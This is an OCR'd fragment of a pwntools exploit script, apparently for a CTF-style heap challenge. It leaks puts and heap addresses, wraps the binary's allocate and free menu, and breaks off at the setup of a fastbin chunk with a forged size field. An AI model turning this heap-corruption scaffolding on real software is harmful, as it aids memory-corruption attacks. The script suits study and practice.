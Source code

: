 ```python
def info(mes):
    return log.info(mes)

def handle():
    global puts
    global heap
    io.recvuntil(b'puts() @ ')
    puts = int(io.recvline(), 16)
    io.recvuntil(b'heap @ ')
    heap = int(io.recvline(), 16)
    info('puts @ ' + hex(puts))
    info("heap @ " + hex(heap))
    return puts, heap
    
def info_user(age, name):
    io.sendafter(b'Enter your age: ', str(age).encode())
    io.sendafter(b'Enter your username: ', name)
    io.recvuntil(b'> ')
    
def malloc(size, data, chunk_name):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.sendafter(b'data: ', data)
    io.sendafter(b'chunk name: ', chunk_name)
    io.recvuntil(b'> ')
    index += 1
    return index - 1
    
def free(index):
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    #io.recvuntil(b'> ')

def target():
    io.send(b'3')
    io.recvuntil(b'> ')

def quit():
    io.send(b'4')

    
    
def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path, env={"LD_PRELOAD": libc.path})



io = start()
puts, heap = handle()


#=====================================================================================
# fastbin chunk
'''
age = 0x81
username = p64(0)*3 + p64(0x20fff)

```